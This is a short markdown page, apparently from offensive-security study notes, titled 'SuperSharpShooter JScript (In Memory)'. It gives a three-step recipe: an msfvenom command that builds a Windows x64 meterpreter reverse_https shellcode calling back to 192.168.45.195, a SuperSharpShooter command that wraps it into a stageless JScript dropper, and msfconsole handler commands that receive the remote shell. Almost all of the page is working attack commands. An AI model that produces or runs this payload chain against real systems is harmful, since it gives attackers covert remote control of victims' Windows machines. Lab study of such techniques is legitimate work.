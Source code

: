```yaml
---
title: SuperSharpShooter JScript (In Memory)
layout: default
parent: Shellcode
nav_order: 4
---
```


1. First prepare a shell.txt using msfvenom:
`msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.45.195 LPORT=3333 -f raw -o /home/kali/shell.txt`

2. Then use SuperSharpShooter:
`python3 SuperSharpShooter.py --payload js --dotnetver 4 --stageless --rawscfile /home/kali/shell.txt --output test`

3. To receive the incoming shell:

```
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost IP
set lport PORT
exploit
```